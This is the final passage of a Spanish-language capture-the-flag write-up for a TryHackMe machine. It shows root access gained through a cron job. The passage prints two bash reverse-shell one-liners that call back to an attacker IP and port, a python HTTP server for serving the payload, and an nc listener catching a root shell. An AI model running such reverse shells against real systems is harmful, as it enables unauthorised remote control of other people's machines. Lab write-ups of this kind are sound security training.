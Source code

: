 En mi caso he usado la de <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentest Monkey</a>:

> bash -i >& /dev/tcp/10.8.33.229/4444 0>&1

También podríamos haber usado la de <a href="https://gtfobins.github.io/gtfobins/bash/#reverse-shell">GTFOBins</a>:

> bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'

Ejecutamos un servidor local mediante:

> python3 -m http.server 80

Nos ponemos en escucha desde el puerto que hemos indicado y esperamos menos de un minuto (que es lo que tarda en ejecutarse la tarea crontab desde la máquina víctima)

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.33.229] from (UNKNOWN) [10.10.189.162] 58330
bash: cannot set terminal process group (3567): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{????????????????????????''}
```

Conseguimos acceso y obtenemos la flag de root! 

Muchas gracias por leer este writeup, espero que te haya gustado!
